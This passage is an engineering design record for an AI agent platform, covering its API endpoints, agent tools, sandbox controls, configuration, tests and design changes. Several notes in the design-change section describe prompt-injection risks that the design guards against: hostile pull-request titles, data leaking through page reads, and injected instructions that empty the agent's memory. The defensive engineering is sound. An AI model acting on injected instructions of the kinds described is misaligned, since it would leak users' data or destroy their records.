Migrations: `0000_phase1_core`, `0001_phase3_chat`, `0002_phase4_apps_approvals`, `0003_phase7_automations`, `0004_phase5_billing`, `0005_waitlist`, `0006_pricing_90day_credits_waitlist_offer` (coupon expiry default 90, `waitlist_entries.offer_used_at`), `0007_agent_runtime` (`agent_settings`), `0008_polar_payments` (payment ids renamed for Polar), `0009_crew_ai_preference_browser_credits` (`usage_periods.browser_credits`, with the old browser credits moved out of `tool_credits`; `agent_settings.ai_preference`), `0010_pr_review` (`pr_reviews`, `automations.preset`). The launch basics of 2026-10-03 needed no migration. Scout's tools needed none either: paid-tool charges are ledger rows and seen addresses are in Redis. `0011_shared_memory` adds `memories` and `chat_engines`.

### 7.2 vm-manager database

| Table | Columns |
|---|---|
| `sandboxes` | user_id, container_id, image_version, state, priority, last_active_at, mcp_token_hash, bridge_secret_hash, allowlist, created/updated |
| `awake_periods` | user_id, started_at, ended_at, browser_seconds |

---

## 8. Interfaces

### 8.1 REST endpoints (all 63 operations in `openapi.yaml`)

Auth: **public** = no token · **user** = Clerk session · **admin** = Clerk session + admin role.

| Tag | Endpoint | Auth | Purpose |
|---|---|---|---|
| system | `GET /healthz` | public | Liveness check |
| me | `GET /v1/me` | user | Profile, plan and balance summary |
| me | `PATCH /v1/me` | user | Update name and timezone |
| channels | `GET /v1/channels` | user | Linked chat apps (`items`) and the channels that are switched on (`available`) |
| channels | `POST /v1/channels/link-codes` | user | One-time code to link a chat app (`403 channel_disabled` for a channel that is off) |
| channels | `DELETE /v1/channels/{channelLinkId}` | user | Unlink a chat app |
| chat | `GET /v1/messages` | user | Chat history (all channels, newest first) |
| chat | `POST /v1/messages` | user | Send a message to the agent from the web app (`403 channel_disabled` when web chat is off) |
| chat | `POST /v1/attachments` | user | Upload a file (max 10 MB) |
| chat | `GET /v1/stream` | user | Live updates (SSE) |
| approvals | `GET /v1/approvals` | user | Approvals (default pending) |
| approvals | `POST /v1/approvals/{approvalId}/decision` | user | Approve or reject |
| apps | `GET /v1/apps` | user | Catalog with connection status and plan availability |
| apps | `POST /v1/apps/{appSlug}/connect` | user | Start connecting an app |
| apps | `DELETE /v1/connections/{connectionId}` | user | Disconnect an app |
| mcp-servers | `GET /v1/mcp-servers` | user | The user's own MCP servers |
| mcp-servers | `POST /v1/mcp-servers` | user | Add one (Max) |
| mcp-servers | `PATCH /v1/mcp-servers/{mcpServerId}` | user | Enable/disable or rename |
| mcp-servers | `DELETE /v1/mcp-servers/{mcpServerId}` | user | Remove |
| byok | `GET /v1/byok` | user | Which providers have a key (keys never returned) |
| byok | `PUT /v1/byok/{provider}` | user | Set or replace a key |
| byok | `DELETE /v1/byok/{provider}` | user | Remove a key |
| automations | `GET /v1/automations` | user | Automations and reminders |
| automations | `PATCH /v1/automations/{automationId}` | user | Pause or resume |
| automations | `DELETE /v1/automations/{automationId}` | user | Delete (timer or trigger too) |
| automations | `GET /v1/pr-reviews` | user | The GitHub repos that have pull-request review on |
| automations | `PUT /v1/pr-reviews/{owner}/{repo}` | user | Turn review on for a repo (`409` GitHub not connected, `403 plan_limit`, `400` bad name or GitHub won't let us watch it, `429`) |
| automations | `DELETE /v1/pr-reviews/{owner}/{repo}` | user | Turn it off (`404` if it wasn't on) |
| agent | `GET /v1/agent/status` | user | Container state |
| agent | `GET /v1/agent/settings` | user | Which agent runs (`runtime`, `effectiveRuntime`), what pays (`aiAccess`), whether Textcrew AI is on offer (`platformAvailable`) and chosen (`aiPreference`), Claude plan status, own-key providers |
| agent | `PATCH /v1/agent/settings` | user | `runtime`, `aiPreference` or both: choose Hermes or Claude Code (`409` without a connected Claude plan), or choose Textcrew AI (`409` when it isn't on offer) |
| agent | `GET /v1/crew` | user | The crew: Tex and the three specialists, whether each is available, and Scout's browser (`requiresPlan` Max, `available` on this deployment, `enabled` for this user) |
| agent | `POST /v1/agent/claude/login` | user | Start the Claude Code sign-in in the container; returns Anthropic's URL (10/hour, `503` if unavailable) |
| agent | `POST /v1/agent/claude/login/{loginId}/complete` | user | Hand over the code from Anthropic's page (`400` wrong/expired, `404` unknown) |
| agent | `DELETE /v1/agent/claude` | user | Sign Claude Code out; back to Hermes |
| memory | `GET /v1/memories` | user | What the agent has saved about the user: every memory, newest first, and `max` (200) |
| memory | `DELETE /v1/memories` | user | Delete all of them; answers `{ deleted }` |
| memory | `DELETE /v1/memories/{memoryId}` | user | Delete one (`404` if it isn't this user's) |
| billing | `GET /v1/billing/plans` | public | Plans and top-up packs (`limits.browser` is true on Max, and Max's features name Scout's web search and browser use; Free and Pro name neither) |
| billing | `GET /v1/billing/subscription` | user | Current subscription |
| billing | `POST /v1/billing/checkout` | user | Polar checkout for a plan or top-up |
| billing | `POST /v1/billing/subscription/cancel` | user | Cancel at period end |
| credits | `GET /v1/credits` | user | Balance and its grants |
| credits | `GET /v1/credits/ledger` | user | Credit history |
| credits | `GET /v1/usage` | user | Usage per period between two dates (AI, awake time, app actions, browser time, paid tools) |
| coupons | `POST /v1/coupons/redeem` | user | Redeem a coupon code |
| activity | `GET /v1/activity` | user | Audit log of what the agent did (`creditsCharged` on app actions and web searches, `crew` on progress lines, `memoryId` on memory entries) |
| waitlist | `POST /v1/waitlist` | public | Join the waitlist |
| admin | `GET /v1/admin/coupons` | admin | List coupons |
| admin | `POST /v1/admin/coupons` | admin | Create a campaign (codes shown once) |
| admin | `PATCH /v1/admin/coupons/{couponId}` | admin | Disable/enable, optionally revoke unspent credits |
| admin | `POST /v1/admin/users/{userId}/credits` | admin | Adjust a user's credits |
| admin | `GET /v1/admin/stats/free-credits` | admin | Free credits this month vs the cap, abuse flags |
| admin | `GET /v1/admin/waitlist` | admin | Waitlist entries with request data |
| admin | `GET /v1/admin/waitlist/stats` | admin | Waitlist totals and busiest IPs |
| admin | `PATCH /v1/admin/waitlist/{entryId}` | admin | Invite, reject or flag |

Pagination: `cursor` + `limit` (1–100, default 30) → `nextCursor` (null at the end). Ids are time-sortable, so lists are ordered by id.

SSE event types on `/v1/stream`: `message.created`, `message.status`, `approval.created`, `approval.resolved`, `agent.status`, `agent.progress`, `credits.updated`, `automation.updated` (plus `ready` and `ping` every 25 s).

### 8.2 Webhooks

| Endpoint | Verified by | Becomes |
|---|---|---|
| `POST /webhooks/clerk` | svix signature (`CLERK_WEBHOOK_SECRET`) | `system/clerk-event` |
| `GET /webhooks/whatsapp` | `hub.verify_token` | echoes `hub.challenge` |
| `POST /webhooks/whatsapp` | `X-Hub-Signature-256` HMAC of the raw body (`WHATSAPP_APP_SECRET`) | one event per message → `inbound/process-message`; receipts → `outbound/message-status` |
| `POST /webhooks/telegram` | `X-Telegram-Bot-Api-Secret-Token` | `inbound/process-message` |
| `POST /webhooks/sendblue` | `sb-signing-secret` | `inbound/process-message` / status |
| `POST /webhooks/polar` | standard-webhooks signature (`POLAR_WEBHOOK_SECRET`) | `system/polar-event` |
| `POST /webhooks/composio` | Composio SDK verification (`COMPOSIO_WEBHOOK_SECRET`) | triggers → `inbound/composio-trigger`; connection changes → `system/composio-event` |

The Telegram, WhatsApp and Sendblue webhooks answer 200 and save nothing while their channel is switched off (§6.4).

### 8.3 Platform MCP tools (for the agent)

| Tool | Input | Does |
|---|---|---|
| `send_message` | text, session_key? | Message to the user in that chat (default: the last chat they wrote from); only the user's own chats |
| `get_profile` | – | Name, timezone, plan, connected apps |
| `list_app_actions` | app?, search? | Actions of connected apps allowed on the plan, with `requires_approval` and `costs_credits` |
| `web_search` | query, count? | Titles, links and snippets from the search provider. Max plan only: a tool error on Free and Pro. 1 credit per search (`credits_charged` in the result). Says so when search isn't set up |
| `read_page` | url | The text and links of one public web page. On Claude Code any public address; on Hermes only an address already seen for the user. Free, on every plan |
| `remember` | content, kind? | Saves one short fact about the user to the shared memory. Refused: a secret, more than 300 characters, more than 200 memories. Free |
| `recall` | query?, limit? | The memories that fit a question, best match first; with no query, the latest. Free |
| `forget` | memory_id, correction? | Removes a memory, or corrects its text and keeps its id. Free |
| `run_app_action` | action, arguments, approval_id? | Runs it in Composio as this user; risky ones need a matching approval, except a pull-request comment covered by review being on for that repo; a successful action that changes something costs 1 credit (`credits_charged` in the result) |
| `request_approval` | summary, action?, arguments?, session_key? | Asks the user; returns `pending`; the agent ends its turn |
| `schedule_reminder` | text, run_at, session_key? | One-time reminder |
| `create_automation` | title, instruction, run_at \| cron + timezone \| trigger, session_key? | Automation |
| `list_automations` | – | The user's automations |
| `cancel_automation` | automation_id | Deletes one of the user's automations |

### 8.4 gRPC (`vm.v1.VmManager`, metadata `x-internal-secret`)

| RPC | Type | Purpose |
|---|---|---|
| CreateSandbox | unary | New container + volume + tokens (stays stopped); carries `browser_enabled`; returns `mcp_token_hash` |
| WakeSandbox | unary | Start if needed, wait for the Bridge; `RESOURCE_EXHAUSTED` at the cap |
| Deliver | server stream | `ACCEPTED → WORKING… → TURN_DONE \| ERROR(platform_fault)` |
| Touch | unary | Refresh last-active |
| StopSandbox | unary | Polite stop, or `force` for stuck turns |
| DeleteSandbox | unary | Remove container, volume, egress rules |
| GetSandbox / ListSandboxes | unary | State, last active, memory, the runtime, `browser_enabled` |
| GetUsage | unary | Awake / browser seconds per user in a window |
| SetEgressAllowlist | unary | Domains + the user's MCP servers |
| SnapshotVolume | unary | Archive `/data` for backup |
| SetAgentRuntime | unary | Hermes or Claude Code, applied on the next delivery |
| StartClaudeLogin | unary | Wake + start the Claude Code sign-in; returns Anthropic's authorize URL |
| CompleteClaudeLogin | unary | Pass the user's code to the waiting sign-in (never stored); `connected` + a safe message |
| ClaudeLogout | unary | Remove Claude Code's credentials from `/data` |
| SetBrowser | unary | Scout's browser on or off for one user's container (2026-10-04). It takes effect on the next wake. The backend calls it from the `sync-browser` job and after a wake (§6.23) |

### 8.5 Bridge HTTP (vm-manager → container, port 8765, header `X-Bridge-Secret`)

| Call | Behaviour |
|---|---|
| `GET /healthz` | `200 {"ok":true,"busy":N}` when Hermes answers, else `503` |
| `POST /deliver` | Body: delivery_id, kind, session_key, channel, text, attachments, approval_id, approved, metadata. Response: NDJSON lines `{"type":"accepted\|working\|turn_done\|error","message","platform_fault"}` |
| `POST /shutdown` | Stop taking work, stop Hermes (it saves to `/data`), `200` within 20 s |

---

## 9. Configuration

All settings come from env vars, validated with Zod at startup (`src/shared/config.ts`). Every variable is listed in `.env.example`. The important ones:

| Group | Variables |
|---|---|
| Core | `DATABASE_URL`, `REDIS_URL`, `QUEUE_PREFIX`, `PORT`, `LOG_LEVEL`, `ENCRYPTION_KEY` (32 bytes base64), `TRUST_PROXY` |
| URLs | `PUBLIC_API_URL`, `INTERNAL_API_URL` (how containers reach `/mcp`), `WEB_APP_URL` |
| Clerk | `CLERK_SECRET_KEY`, `CLERK_JWT_KEY`, `CLERK_WEBHOOK_SECRET`, `CLERK_AUTHORIZED_PARTIES` |
| vm-manager | `VM_MANAGER_URL`, `VM_INTERNAL_SECRET` (32+ chars, same on both sides) |
| LiteLLM | `LITELLM_URL`, `LITELLM_MASTER_KEY`, `LITELLM_CHEAP_MODEL`, `LITELLM_PAID_MODELS`, `LITELLM_AGENT_MODEL`, `LITELLM_PREMIUM_MODEL`, `STT_MODEL` |
| Channels | `ENABLED_CHANNELS` (which channels are on; default `telegram,web`), `TELEGRAM_*`, `WHATSAPP_*` (incl. template names), `SENDBLUE_*`, `MEDIA_MAX_BYTES`, `ATTACHMENTS_DIR` |
| Apps / routing | `COMPOSIO_API_KEY`, `COMPOSIO_WEBHOOK_SECRET`, `COMPOSIO_AUTH_CONFIGS` (JSON slug → auth config id), `JEV_URL`, `JEV_API_KEY`, `JEV_MODEL`, `JEV_TIMEOUT_MS` |
| AI access | `AI_ACCESS_MODE` (`platform` default: Textcrew AI, Hermes on credits, when the user brings nothing · `own_only`: the user must add a key or connect their Claude plan) |
| Crew | `CREW_AVAILABLE` (the specialists that are switched on: `byte,patch,scout` by default, or `none`), `BROWSER_AVAILABLE` (`true` once the deployed agent image has Scout's browser; default off: no container's browser is switched on and the apps show it as not available) |
| Web search | `WEB_SEARCH_PROVIDER` (`brave`), `BRAVE_SEARCH_API_KEY` (unset: `web_search` says it isn't set up), `BRAVE_SEARCH_API_URL`, `WEB_SEARCH_COST_USD` (the cost a search is charged for, × 2.5; default 0.004, which is exactly 1 credit) |
| Payments | `POLAR_ACCESS_TOKEN`, `POLAR_WEBHOOK_SECRET`, `POLAR_SERVER` (`sandbox` / `production`), `POLAR_PRODUCT_PRO/MAX/TOPUP_10`, `POLAR_WAITLIST_DISCOUNT_ID`, `FREE_CREDITS_MONTHLY_CAP` |
| Ops | `BACKUP_DIR`, `BACKUP_VOLUMES_DIR`, `BACKUP_UPLOAD_CMD`, `BACKUP_KEEP_DAYS`, `METRICS_TOKEN`, `ALERT_WEBHOOK_URL`, `RATE_LIMIT_PER_IP_PER_MIN` |

vm-manager variables (see its `.env.example`): `DATABASE_URL`, `VM_INTERNAL_SECRET`, `GRPC_ADDR`, `AGENT_IMAGE`, `AGENT_IMAGE_VERSION`, `SANDBOX_*` (network, runtime, memory, CPUs, pids, volume driver), `LITELLM_BASE_URL`, `LITELLM_MODEL`, `PLATFORM_MCP_URL`, `EGRESS_*`, `AWAKE_CAP`, `IDLE_TIMEOUT`, `HEALTH_*`, `RECONCILE_INTERVAL`, `DELIVER_TIMEOUT`, `SHUTDOWN_GRACE`, `WAKE_TIMEOUT`, `SNAPSHOT_ROOT`.

---

## 10. Testing

| What | How |
|---|---|
| Harness | `test/global-setup.ts` starts one real Postgres (embedded binaries) and one `redis-server`; `test/setup.ts` gives each test file its own database (all migrations applied) and its own BullMQ key prefix. The global setup also keeps vitest's failure exit code: before 2026-10-03 an exit hook of the embedded Postgres ended the process with 0, so a failing `pnpm test` looked green to CI |
| Contract | `expectContract(operationId, response, status)` validates every response body against `openapi.yaml`; a test fails if any spec operation isn't implemented |
| Auth | Test Clerk JWTs signed with a generated RSA key (`CLERK_JWT_KEY`), real `verifyToken` |
| Outside services | Swappable clients: `setVmClient` (a fake vm-manager whose "agent" calls the real `/mcp` with its token; it keeps the browser switch per user, every `SetBrowser` and `WakeSandbox` call, and can be made to fail `SetBrowser` or `SetAgentRuntime`), `setTelegramApi`, `setWhatsappApi`, `setSendblueApi`, `setComposioApi`, `setLiteLLMClient`, `setPolarClient`, `setJevClient`, `setChatCompleter`, `setTranscriber`, `setUrlDownloader`, `setByokVerifier`, `setCommandRunner`, `setGitUpstream` (a fake GitHub), `setWebSearchProvider`, `setPageResolver` and `setPageTransport` (a fake internet for `read_page`) |
| HTTP clients | `phase6-http-clients.test.ts` runs the real HTTP clients against a local stand-in server |
| Concurrency | 50 parallel coupon redemptions on real Postgres; per-user lock overlap test; parallel sync-usage |
| Files | `phase1-*` (skeleton), `phase3-*` (Telegram, web), `phase4-*` (approvals, apps), `phase5-*` (credits, usage, coupons, Polar, LiteLLM, jobs, API), `phase6-*` (WhatsApp, Sendblue, media, routing, clients), `phase7-*` (automations), `phase8-*` (hardening), `integration-billing`, `waitlist`, `waitlist-offer`, `claude-plan` (bring your own Claude plan), `git-gateway`, `dev-user-script`, and the launch basics: `channels-switch`, `app-action-charge`, `app-connections`, `telegram-no-purchase-links`, `infra-caddy` (the Caddyfile rule checked against the routes the api mounts), and the crew package: `crew`, `textcrew-ai-choice`, `pr-review`, `scout-tools`, and shared memory: `memory` (the tools, limits, secrets, per-user checks, the endpoints), `memory-turns` (the block and the recap in what is delivered), and Scout's browser: `browser` (who has it, the switch at creation, on a plan change through Polar's events and the job, after a wake, and no wake at zero credits); the browser's charging is in `phase5-usage`, `read_page` by engine in `scout-tools`, the crew list's `browser` in `crew`, and the new script commands in `dev-user-script` |
| vm-manager | Unit tests with a fake Docker daemon and a fake clock; the store on embedded Postgres; the Bridge with a fake Hermes; `-tags=integration` tests for real Docker (not run yet) |

Commands: `pnpm lint && pnpm typecheck && pnpm test` · `pnpm openapi:lint` · in `vm-manager/`: `go vet ./... && go test ./...`, Bridge: `python3 -m unittest discover -s tests -t .` (in `agent-image/`).

---

## 11. Where we changed or filled in the design

**Infra**
- The **platform network allows outbound internet.** The HLD says "no internet", but the worker must reach Telegram, Meta, Composio, Polar and Jev, and LiteLLM must reach model providers. Nothing on it is reachable from outside, and the sandbox network stays fully internal.
- **Container file URLs** use `INTERNAL_API_URL` under `/mcp/files`, because the proxy only lets containers reach `/mcp`.

**Backend**
- **OpenAPI:** a `400` response was added to list/body endpoints that validate input; the waitlist endpoints were added.
- **Coupon codes are `AGT-XXXX-XXXX-XXXX-XXXX`** (16 random characters). The HLD's format holds only 12, but it also asks for "16+".
- **Coupons** are split into campaigns (`coupons`) and codes (`coupon_codes`), so one campaign can have many single-use codes; a user can redeem a campaign once.
- **A `payments` table was added** so refunds and chargebacks can be traced to what they bought.
- **Overruns** sit on one hidden grant per user and are recovered from the next grant.
- **LiteLLM budget** = spend so far + balance ÷ 250, because LiteLLM compares `max_budget` with the key's total spend.
- **BYOK:** any own key means no AI charges (we can't tell which calls used it). Routing their traffic through their own key in LiteLLM is **not wired yet**.
- **Bring your own Claude plan** (added on request, not in the HLD, §6.13): with `own_only`, a connected plan runs Claude Code even if Hermes was chosen, because it's the only AI source; Claude plan users skip Jev; a lost Claude sign-in falls back to Hermes after the failed turn. `DELETE /v1/agent/claude` answers `503` if the vm-manager is down (not in the spec yet).
- **Chargebacks:** a refund Polar makes to prevent a chargeback takes back the purchased credits and flags the user; the plan isn't changed. Polar has no dispute webhook, so other disputes are handled by hand.
- **Monthly grants on renewal** are handled inside `polar-event` (on the paid renewal order); there's no separate `grant-monthly-credits` job.
- **Payments: switched from Dodo to Polar on 2026-09-30** (the user's decision). Same behaviour (HLD 7.6); the webhook is now `/webhooks/polar`, the ids are Polar's (`polar_order_id`, `polar_subscription_id`, migration `0008_polar_payments`), and the waitlist offer is a Polar discount id instead of a Dodo discount code.
- **Approvals** are single use, expire after 24 h, and must match the exact action and arguments.
- **Risky actions** are detected by name in `integrations/catalog.ts`.
- **Clerk `user.updated`** is handled too (email verification and role changes).
- **Containers call LiteLLM model `agent-default`**; the per-user key maps it to `cheap` (Free) or `claude` (Pro/Max).
- **Max-plan priority** is a BullMQ job priority on the inbound queue.
- **WhatsApp 131047** means the 24 h window closed (not a block): the message is resent as a template.
- **The waitlist** isn't in the HLD; it was added on request.
- **Pricing update (2026-09-29, to match the pricing page):** Max $30 (was $29); automations Free 1 / Pro 5 / Max 50 (were 3 / 20 / 50); every credit lasts 90 days from its grant (was: sign-up never, monthly until renewal with no roll-over, top-ups 12 months, coupons 30 days), so monthly credits now carry over; waitlist members get 50% off the first month; model tiers are no longer shown on the pricing page but the model limits stay in code (they apply to Textcrew AI).

**Launch basics (2026-10-03, `docs/launch-plan.md` W1a)**
- **Channels switch:** `ENABLED_CHANNELS`, default `telegram,web`. The WhatsApp and iMessage code and tests stay; the tests switch those channels on. `web` can be switched off too (web chat only).
- **A switched-off channel's webhook answers 200** rather than 404, so a provider that still calls it stops retrying; nothing is checked or saved.
- **App-action charge at the time of the action,** not in the 5-minute sync, so the balance check before each changing action is exact and the credit history shows one line per action. Usage reads these lines back from the ledger; no new table or column.
- **Read or write is decided by the action's name,** with Composio's `readOnlyHint` tag used only for names that say nothing. We could not check against the live Composio API how reliably that tag is set, so it never overrides a name, and an unknown action is charged.
- **Cheap-model-only grants may pay app actions** (HLD §7.7 now says so). Otherwise a user holding only coupon credits would run up a debt with every action.
- **A changing action is refused at zero credits.** Without this, a user on their own AI (no LiteLLM cap) could act without limit.
- **Connection check:** six checks in about 16 minutes, then the connection is left pending rather than marked failed, because the user may still finish and the webhook or app list can pick it up. The connect return URL is a web app page; there is no api return URL to hook, and the web app's app list already refreshes.
- **No purchase links on Telegram:** only the out-of-credits reply carried one. The sender-side replacement is a safety net for text we don't write (the agent's).
- **Caddy** answers 404 for `/mcp*` and `/git/*` with a plain-text body. Not tried against a live Caddy.

**Crew package (2026-10-04, `docs/launch-plan.md` W2b-1)**
- **The crew's availability is a setting** (`CREW_AVAILABLE`), because the backend can't see which agent image is deployed.
- **Progress lines go to web chat only.** Telegram gets nothing for them. Only lines that name a crew member are saved, at most 30 a turn.
- **Pull-request review is an automation with a preset,** not a new subsystem: the trigger, the plan limit, pausing and the list come from automations. Only `pr_reviews` is new.
- **GitHub comments and reviews now need approval** like sending a message. Before, a GitHub comment ran without asking.
- **The standing permission names four actions exactly.** The first version went by words in the action's name. GitHub has other actions that fit those words (a gist comment, a team discussion comment, a commit comment, a reaction), and with a repo and a pull request number added to their arguments they would have passed. Now an action not on the list needs approval. If Composio names one of the four differently, the review asks for approval: the safe side.
- **The review instruction carries no text from the pull request.** The first version put the title in it. Anyone who can open a pull request writes the title.
- **A review that failed is not tried again for that commit,** because a failed turn may already have posted. One the agent never started (out of credits) can be.
- **Paid tools keep their running total in the ledger** (each charge row saves the call's cost), so there is no counter to drift and no migration.
- **A search is 1 credit by a setting, not by new code** (2026-10-04): the paid-tool path already charges a configured cost × 2.5, and 0.004 × 2.5 is exactly one credit. The ledger rows, the idempotency keys, the refund of a failed turn and `toolCredits` in usage are untouched. The cost of this choice: the setting no longer says what Brave bills us, and a server that sets the old value charges the old price.
- **Web search is Max only, checked in the tool** (2026-10-04). No field was added to the API: `limits` is unchanged, Max's feature list names the search, and Scout's description in the crew list says what needs Max. The engine is not checked: a Max user's call is answered whichever engine made it.
- **One search provider is built: Brave.** $5 per 1,000 searches when checked on 2026-10-04, with $5 of free credit a month. Another provider is one more case behind the same interface.
- **`read_page` opens only an address already seen for the user,** and redirects follow the same rule. This is stricter than the leak needs for redirects (a redirect's target is chosen by the site, not by the agent) and it costs some pages; it can be loosened to "same site" later.
- **A refused `read_page` is written to the activity log,** so the user can see an injected instruction at work.
- **Choosing Textcrew AI** is a preference next to the runtime, not a third runtime: the key and the Claude connection stay, so switching back needs no new sign-in.
- **The browser is in the user's container, not at a hosted provider** (decided 2026-10-04, HLD §11). The proposal recommended a hosted browser driven by platform tools, to keep the container's network locked. The founder chose the container: no supplier, and no third party sees the pages. The cost is stated in HLD §10.3. Signing in to sites is the next step and is not built.

**Scout's browser, the platform side, and `read_page` by engine (2026-10-04, `docs/launch-plan.md` W2c)**
- **`BROWSER_AVAILABLE` also gates the switch,** not only what the apps show. With the setting off, no container is told to open, whatever the plan: the network is not opened for a browser the image doesn't have.
- **The crew list keeps `available` and gains `enabled`.** The web app already treats `available` as "this deployment has it" and works out the plan itself. Making `available` depend on the user's plan would have told a Pro user the browser "isn't ready yet". So `available` is the setting and `enabled` is the setting and the plan.
- **The switch is sent at three moments** (creation, plan change, after a wake). The third was added because a container made before the browser existed never sees a plan change, and a job can run out of tries.
- **`setPlan` answers whether the plan changed,** so a renewal of the same plan queues nothing.
- **A switch is written to the activity log,** so a user can see when their container was opened.
- **`read_page` asks which engine the turn in progress runs on,** not what the user's settings say. The settings can change in the middle of a Hermes turn (the user connects their Claude plan), and a container can fail to switch; in both cases the agent that is running is Hermes. With no turn on record the strict rule applies.
- **A page read at an unseen address is marked in the activity log** (`seen: false`), so reads under the open rule can be found.
- **The dev script hides secrets in what it prints,** with the memory's secret patterns. A plain hash is left readable, so a review's commit id still shows.
- **`test/infra-caddy.test.ts` checks the api's site only.** The web app's site (added to the Caddyfile the same day) has its own proxy, and the test had wanted exactly one.

**Shared memory (2026-10-04, `docs/launch-plan.md` W3a)**
- **The orchestrator owns memory,** not a new module: it builds what is delivered each turn, and the Platform MCP owns no tables.
- **Three tools named `remember`, `recall` and `forget`.** Correcting is `forget` with a `correction`, so the tool's name says what happens when the correction is left out.
- **Memory rides inside `Deliver.text`.** The Bridge gives the engine only that field (and attachments), not `metadata_json`. Nothing changed in the agent image or the proto.
- **The audit log holds no memory text.** It is kept after a memory and an account are deleted, so the text is in `memories` only. The activity entry carries `memoryId` and the web app shows the text from the memory list.
- **The engine is recorded per chat,** not per user, because each engine keeps one session per chat. A user's Telegram chat and web chat each get their own recap after a switch.
- **A chat no engine ran in is recapped only if the user wrote in it before.** Otherwise every new user's first turn would carry a recap of the "linked" greeting.
- **Removals count in the hourly limit,** so an injected instruction can't empty the memory quickly. The user's own deletes are not limited.
- **No memory block on the simple-chat path.** A message that needs what is known about the user is routed to the agent.
- **One limit for every plan** (200 memories, 300 characters), as constants in the code.
- **Finding uses Postgres text search,** computed per query. A user has at most 200 short memories, so there is no text index and no extra column.

**vm-manager**
- **Secrets live in a file on `/data`**, not in env, so a re-created container keeps the same token.
- **The egress file is removed on every stop**, not only on delete.
- **SetEgressAllowlist replaces both lists**; the backend sends the MCP domains itself.
- **No `/data` disk quota** with Docker's default volume driver (set `SANDBOX_VOLUME_DRIVER/OPTS`).
- **`browser_seconds`** was always 0 until 2026-10-04. The browser package makes it real: the container reports the seconds the browser was open at the end of a turn, and each report is counted once (the `vm-manager` repo has the details). The backend charges it at 2 credits per minute (§6.23).
- **Hermes's own approval prompts are denied**; the platform's `request_approval` is used instead.

---

## 12. Not verified yet

**Run on the server on 2026-10-05** (the record is `docs/aws-setup.md`, problems 12 and 13 and the timeline; the browser's results are in the vm-manager's build report, section 9): the deploy with the agent image that has the browser; `/mcp` and `/git` answer 404 from outside through the live Caddy; the browser switch for a Max user; Scout driving the browser on Claude Code; and browser minutes. The usage rows held the seconds the vm-manager recorded (14, 13 and 6), and one credit was charged when the total passed 30 seconds, by the sync that runs after the turn.

| # | What | How to check |
|---|---|---|
| 1 | The whole stack starts healthy | `docker compose -f infra/docker-compose.yml up -d` on a machine with Docker + gVisor |
| 2 | Containers reach only the egress proxy | `docker compose -f infra/docker-compose.yml --profile egress-test run --rm egress-test` |
| 3 | Create → wake → deliver → idle stop → wake with memory; awake cap | `cd vm-manager && go test -tags=integration -v ./internal/integration/` |
| 4 | Hermes really works in the read-only container | Build `agent-image`, send a real message |
| 5 | RAM per container (sets the awake cap) | `docker stats --no-stream pa-sbx-<user>` → `vm-manager/README.md` |
| 6 | Real outside services | Test accounts: Telegram bot, Meta test number, Sendblue, Composio, LiteLLM + OpenRouter, Polar sandbox (products, discount, webhook endpoint on API version 2026-10), Jev, Clerk |
| 7 | Backups restore | `scripts/restore-test.sh` on the server |
| 8 | Load at the awake cap | `pnpm tsx scripts/load-test.ts` |
| 9 | Claude plan sign-in with the real Claude Code | Build the agent image (installer + signature check for 2.1.283), connect a test Pro/Max account from the web app through the Squid proxy, send a message, then disconnect. Check the real `auth login` screen, the stream-json shapes and error texts, whether the 4 Anthropic hosts are enough, and RAM with Hermes + Claude Code |
| 10 | Git gateway against the real GitHub | Deployed 2026-10-01; unit tests use a fake GitHub. Ask the agent on Telegram to clone a repo, push a branch and open a PR. Check that Composio returns the GitHub token to the api (its "mask connected account secrets" setting must be off and the auth config needs the `repo` scope), that a large clone streams through Squid and the api, and that a push to the default branch is refused |

| 11 | The Caddy rule for `/mcp*` and `/git/*` (2026-10-03) | After a deploy: `curl -i https://<domain>/mcp` and `/git/x/y/info/refs` answer 404 from outside, `/healthz` answers 200, and a turn still works (the container reaches `/mcp` through Squid) |
| 12 | The connection check against the real Composio (2026-10-03) | Connect an app with `scripts/dev-user.ts connect-app` and no web app: it turns `active` within a minute of approving. Check that `connectedAccounts.list` returns `ACTIVE` for it |
| 13 | Composio's `readOnlyHint` tag on real tools (2026-10-03) | List a toolkit's tools and check the `tags` field; it only matters for action names with no read or write word |
| 14 | Pull-request review against the real Composio and GitHub (2026-10-04) | Turn review on for a test repo from the API. Check that `GITHUB_PULL_REQUEST_EVENT` takes `owner` and `repo` and creates the webhook, what its payload looks like (the worker reads `action`, `number` and `pull_request.head.sha`, and asks GitHub for the head commit anyway), and that the four action names in `integrations/catalog.ts` are Composio's real names. If one is wrong, the review asks for approval instead of posting |
| 15 | A whole review turn (2026-10-04) | Open a pull request in the test repo: Patch clones through the git gateway, posts one review, and the verdict arrives on Telegram. Push again: one more review. Reopen: none |
| 16 | `web_search` with a real Brave key (2026-10-04) | Set `BRAVE_SEARCH_API_KEY`. As a Max user on Hermes, ask the agent to search, and check the results, the 1-credit charge and the `Web search` line in the credit history. As a Free or Pro user, check the agent says web search needs Max and the activity log shows the refusal. Check the server's settings don't still say `WEB_SEARCH_COST_USD=0.005` |
| 17 | `read_page` against the real internet (2026-10-04) | Read an https page named in a message; check the pinned connection works with real certificates, a compressed page, and a page that redirects from `http` to `https`. From outside nothing changes: the tool is only reachable through `/mcp` |
| 18 | Crew progress lines from the real Bridge (2026-10-04) | With the W2b-2 agent image: start a job that uses a specialist and watch `agent.progress` on `/v1/stream`; nothing extra arrives on Telegram |
| 19 | Scout's tool limit on Hermes (2026-10-04) | On Hermes the limit is an instruction, not a tool list. Check what a delegated Scout can call, and that `read_page` refuses a made-up address whoever calls it |
| 20 | Shared memory on a real engine (2026-10-04) | **Half run on 2026-10-05, on Claude Code, and it found a gap:** told "remember this for later", the lead saved the fact in Claude Code's own memory files (`Read`, `Write`) and the platform's memory stayed empty. Asked for the platform tool by name it called `remember`, the memory was listed (`1 of 200`) and the activity log has `remember`. Still to check after the lead's instructions name the platform's memory: the same on Hermes, that a fact saved on one engine is used on the other, how the block at the top of the message is read, and a save that holds a password |
| 21 | The recap on a real engine switch (2026-10-04) | Chat on Hermes, connect a Claude plan, send a follow-up that only makes sense with the earlier messages. Then switch back. The new engine carries on, and the same engine's next turn has no recap |
| 22 | `read_page` on Claude Code after the built-in search (2026-10-04) | As a user on a Claude plan, ask for something Scout must search and read. Check that `read_page` now opens the results (`activity` shows `read_page`, not `read_page_refused`), and that a private address is still refused. On Hermes, check an unseen address is still refused |
